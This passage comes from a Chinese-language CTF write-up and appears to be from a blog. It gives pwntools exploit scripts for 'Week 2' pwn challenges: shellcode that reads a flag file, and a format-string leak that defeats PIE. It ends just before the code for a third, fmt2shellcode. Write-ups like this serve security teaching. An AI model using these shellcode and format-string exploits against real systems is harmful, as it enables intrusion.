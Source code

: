 ```
from pwn import *
#io = process('./shellcode_1')
io = remote('47.97.58.52',42013)
context(os='linux',arch='amd64',log_level='debug')
addr = 0x20240500
payload = shellcraft.amd64.open("./flag")
payload += shellcraft.amd64.read(3,addr,0x30)
payload += shellcraft.amd64.write(1,addr,0x30)
print(len(payload))
payload = asm(payload)
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
io.interactive()
```

#### [Week 2] ez_format

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-17.png" alt="img" style="zoom:50%;" />

因为这道题开了pie，所以没法直接读取flag的内容，需要泄露栈里地址并且加上偏移来得到&flag的数值，因为很简单，所以直接上代码

```
from pwn import *
#io = process('./pwn22')
io = remote('47.97.58.52',42001)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
#gdb.attach(io)
#pause()
io.send(b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
print(hex(a))
addr = a - 0x1140 + 0x40c0
print(hex(addr))
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
flag = io.recv()
print(flag)
io.interactive()
```

#### [Week 2] fmt2shellcode

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-18.png" alt="img" style="zoom:50%;" />

可以看到，我们需要满足key==26318864这个条件才能得到shell，但是有几个问题

1.这题开了pie（需要提前泄露栈内的地址

2.read一次读取0x20个数据（代表没法用fmtstr_payload一把梭，需要手搓

3.诸如%xxxc%y$n的长度超过了8，也就是说，需要将地址放在后面两个字长的偏移而不是一个字长

所以代码如下
